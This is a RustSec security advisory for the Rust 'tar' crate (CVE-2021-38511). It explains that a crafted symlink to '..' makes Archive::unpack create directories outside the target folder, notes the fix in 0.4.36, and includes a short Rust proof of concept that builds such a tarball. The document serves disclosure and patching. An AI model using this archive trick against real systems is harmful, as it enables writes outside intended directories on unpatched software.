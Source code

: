 ```toml
[advisory]
id = "RUSTSEC-2021-0080"
package = "tar"
aliases = ["CVE-2021-38511", "GHSA-62jx-8vmh-4mcw"]
cvss = "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"

[versions]
# none, 0day
patched = [">= 0.4.36"]

[affected]
functions = { "tar::Archive::unpack" = ["< 0.4.36"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This has been fixed in https://github.com/alexcrichton/tar-rs/pull/259 and is
published as `tar` 0.4.36. Thanks to Martin Michaelis (@mgjm) for discovering
and reporting this, and Nikhil Benesch (@benesch) for the fix!
